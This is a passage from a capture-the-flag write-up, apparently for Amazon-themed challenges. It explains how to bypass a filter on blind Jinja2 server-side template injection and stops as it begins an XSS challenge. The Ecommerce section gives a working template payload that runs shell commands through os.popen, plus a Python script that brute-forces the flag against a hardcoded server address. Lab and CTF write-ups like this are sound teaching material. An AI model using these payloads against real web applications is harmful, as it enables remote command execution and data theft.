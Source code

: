 ``` Amazon{This_Flag_Is_Secret_front_end_validation_is_bullet_proof} ```

### Ecommerce - 200 points - Medium
This one is also an SSTI, Amazon people sure love this vulnerability. Performing just the same steps as the previous challenge, yet this time some filters were applied. When entering two curly brackets "```{{ ```", it detects the malicious input and shows an alert. 

Luckily, reading the [Jinja2 documentation](https://jinja.palletsprojects.com/en/2.10.x/templates/), I found a way to bypass this check. As curly brackets are used to execute various expressions and read data, `{%  ...  %}` is used for  statements. Thus it is possible to make use of this in order to execute our paylaod using an If statement. Trying to come up with the desired structure for doing so, I stumbled upon this [blog post](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) that helped me figure it all out. 

This is a blind injection, so knowing the flag format we can check if our payload is correct by testing on the first character which is A.
```{% if request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read().startswith('A') %} found {% endif %}```

Sending this payload in Burpsuite, we can see that the body response contained the word ```found``` ! Our payload was successfully executed and we can move on to automating the extraction of the flag by writing a short python script. 

```python
import requests

dictionary="azertyuiopmlkjhgfdsqwxcvbnAZERTYUIOPMLKJHGFDSQWXCVBN{}1234567890-_*%$()?!/;:,.%&|@#~¹[|`§+=<>"
URL = "http://18.220.4.126:6060/addtocart"
final = ""
for i in range(1,60):
        for x in dictionary:
                exploit = "{% if request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read().startswith('"+ final + x+ "') %} found {% endif %}"
                data = {'item': exploit}
                r = requests.post(url = URL , data = data)
                if ("found" in r.text) :
                        final = final + x
                        print ("gj XwaSS!: " + final)
                        break
```
![alt-text](https://i.imgur.com/S5Hehg7.png)



### Bloggerade - 200 points - Medium
This challenge addressed an XSS vulnerability. 
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users which allows attackers to execute malicious code inside the victim's browser.

Opening the challenge website, we have a report to admin feature, 2 blogs that we can view and a /administrator page which we don't have access to. Analyzing this, we can assume that the flag is in the /administrator page that only the admin can access. Which means we need to find a way to exfiltrate the content of that page. 

